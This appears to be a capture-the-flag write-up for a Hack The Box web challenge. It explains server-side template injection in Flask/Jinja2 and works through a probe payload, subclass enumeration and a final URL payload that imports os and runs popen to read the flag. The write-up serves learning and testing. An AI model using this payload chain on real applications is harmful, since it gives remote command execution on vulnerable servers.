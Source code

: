 ```yaml
---
title: "Templated"
date: 2025-08-20 21:47:00 +0500
categories: [Challenges]
tags: [HTB, Web, SSTI]
---
```


## Investigating the Instance

On visiting the spawned instance `http://94.237.54.192:48939`, we are greeted with:

![alt text](/assets/images/templated-web.png)

Something of interest is the message:

`Proudly powered by Flask/Jinja2`

I tried investigating the request and response headers yet nothing interesting showed up. 
I also did a directory brute force and had no results.

Then I tried going to random pages like:

`http://94.237.54.192:48939/robots.txt`

![alt text](/assets/images/templated-verbatim.png)

What I noticed was the reflected user input. (a big hint for SSTI usually)

Something Jinja is well known for is it's SSTI. So what's a SSTI?

### Understanding SSTI

SSTI or Server Side Templated Injection occurs when user input is embedded unsafely into server-side templates.

What happens in SSTI:

- Web applications use template engines (like Jinja2, Twig, Freemarker, etc.) to dynamically generate HTML, emails, or other content
- When user input is directly inserted into templates without proper validation or sanitization, attackers can inject malicious template code
- The template engine then executes this malicious code on the server

SSTI is considered a high-severity vulnerability because it can lead to complete server compromise, making it a critical concern for web application security.

### Testing for SSTI

For Jinja2 we have a simple payload that we could try and confirm the existence of SSTI. `{{7*7}}`

`94.237.54.192:48939/{{7*7}}`

Our input wasn't `49` right?

![alt text](/assets/images/templated-SSTI.png)

## Abusing SSTI

Time for us to get the `/flag.txt`. 

### Reveal Class Information

We will attempt to exploit Python's object introspection capabilities to access the Method Resolution Order (MRO) of the string class (basically revealing class information).

`94.237.54.192:48939/{{ ''.__class__.__mro__ }}`

Returns:

`'(<class 'str'>, <class 'object'>)'`

Since `object` was also revealed we could use it to reveal the sub-classes.

### Finding subclasses

We will now try to request all the sub-classes with:

`94.237.54.192:48939/{{ ''.__class__.__mro__[1].__subclasses__() }}`

This will reveal a huge list of classes that inherit from object. We will try to find a class that we could use for malicious purpose specifically file operations in our context.

We are looking for either of the sub-class:

- `<class 'subprocess.Popen'>`
- `<class '_io.TextIOWrapper'>`

I wrote a simple script that could be used to find the index of that sub-class:

```python
linesList = []

with open("classes.txt", "r") as file:
    lines = file.read()
    linesList = [item.strip() for item in lines.split(',')]
    
    search_string = "<class 'subprocess.Popen'>"
    if search_string in linesList:
        index_location = linesList.index(search_string)
        print(f"Found at index: {index_location}")
    else:
        print(f"'{search_string}' was not found in the list.")
```

We found it at index:

`Found at index: 414`

We can confirm if the index really is correct by:

`http://94.237.54.192:48939/%7B%7B%20''.__class__.__mro__[1].__subclasses__()[414]%20%7D%7D`

Going down this route didn't work for me the way I intended. The other sub-classes weren't of much use either.

## Searching for import function

What I tried afterwards was to look for a sub-class that had `import` in their `global namespace`. One such sub-class is `warnings.catch_warnings`. We confirm if `import` is available by:

`94.237.54.192:48939/{{''.__class__.__mro__[1].__subclasses__()[186].__init__.__globals__}}`

Afterwards, we will check if we can access the `import` function:

`http://94.237.54.192:48939/%7B%7B''.__class__.__mro__[1].__subclasses__()[186].__init__.__globals__['__import__']%7D%7D`

Then, `import os` and access `popen` to read `flag.txt`:

`http://94.237.54.192:48939/%7B%7B"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat%20flag.txt").read()%7D%7D`

---

